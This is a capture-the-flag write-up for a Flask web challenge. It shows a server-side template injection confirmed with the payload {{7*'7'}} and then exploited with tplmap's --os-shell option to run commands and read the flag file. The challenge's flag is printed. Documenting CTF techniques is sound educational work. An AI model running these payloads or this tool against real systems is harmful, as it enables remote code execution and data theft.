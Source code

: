 This was a web challenge with an estimated difficulty of "medium". Other than the difficulty, the only content in the challenge description was a link to the target web server.

Browsing to the web server reveals a page that reads "Welcome to my new FaaS! (Flask as a Service) Please enter the two chemicals you would like to combine: " and then two fields for Chemical One and Chemical Two. Using Burp Suite to intercept this POST request shows that the request and response look like this:

<code>
POST /science HTTP/1.1 </br>
Host: web3.tamuctf.com</br>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0</br>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</br>
Accept-Language: en-US,en;q=0.5</br>
Accept-Encoding: gzip, deflate</br>
Referer: http://web3.tamuctf.com/</br>
Content-Type: application/x-www-form-urlencoded</br>
Content-Length: 15</br>
Connection: close</br>
Upgrade-Insecure-Requests: 1</br>

chem1=a&chem2=b</br>


HTTP/1.1 200 OK</br>
Server: nginx/1.15.8</br>
Date: Mon, 04 Mar 2019 13:33:53 GMT</br>
Content-Type: text/html; charset=utf-8</br>
Content-Length: 272</br>
Connection: close</br>

\<html>
        \<div style="text-align:center"></br>
        \<h3>The result of combining a and b is:\</h3>\</br></br>
        \<iframe src="https://giphy.com/embed/AQ2tIhLp4cBa" width="468" height="480" frameBorder="0" class="giphy-embed" allowFullScreen>\</iframe>\</div></br>
        \</html>
</code>


Interestingly, user-provided output is reflected in the HTTP response. Given the reference to Flask, this suggested to me the possiblity of a Server-Side Teplate Injection vulnerability. To test for this futher, I made use of <a href="https://portswigger.net/blog/server-side-template-injection">this excellent blog post </a>from Portswigger.

The blog post recommends using a couple different payloads and seeing if they're interpreted by the templating engine before being reflected to the user. One of the recommended payloads is {{7*'7'}}. I sent this data via POST request:

<code>
chem1={{7*'7'}}&chem2={{7*'7'}}
</code>

The relevant portion of the response was:

<code>
The result of combining 7777777 and 7777777 is:</br>
</code>

Clearly, my input had been interpreted. This particular response indicates that the Jinja2 templating engine is in use. Rather than try to perform further exploitation by hand, I decided to take the opportunity to experiment with the tool TPLmap, which is an automated exploitation tool for SSTI vulnerabilities, much like SQLmap for SQL injection vulnerabilities. The tool can be found here:
https://github.com/epinna/tplmap

TPLmap has a feature that, after determining an injection point, will provide a pseudo-shell to the user to allow for easy remote code execution. To exploit the SSTI I'd identified, I used this command:

<code>
python tplmap.py -u "http://web3.tamuctf.com/science" -d "chem1=1&chem2=whatever" -e jinja2 --os-shell
</code>

This provided a shell, which allowed me to view the directory contents and grab the flag:

<code>
[+] Tplmap 0.5</br>
    Automatic Server-Side Template Injection Detection and Exploitation Tool</br>

[+] Testing if POST parameter 'chem1' is injectable</br>
[+] Jinja2 plugin is testing rendering with tag '{{*}}'</br>
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'</br>
[+] Tplmap identified the following injection point:</br>

  POST parameter: chem1</br>
  Engine: Jinja2</br>
  Injection: {{*}}</br>
  Context: text</br>
  OS: posix-linux2</br>
  Technique: render</br>
  Capabilities:</br>

   Shell command execution: ok</br>
   Bind and reverse shell: ok</br>
   File write: ok</br>
   File read: ok</br>
   Code evaluation: ok, python code</br>

[+] Run commands on the operating system.</br>
posix-linux2 $ ls</br>
config.py</br>
entry.sh</br>
flag.txt</br>
requirements.txt</br>
serve.py</br>
tamuctf</br>
posix-linux2 $ cat flag.txt</br>
gigem{5h3_bl1nd3d_m3_w17h_5c13nc3}</br>
</code>
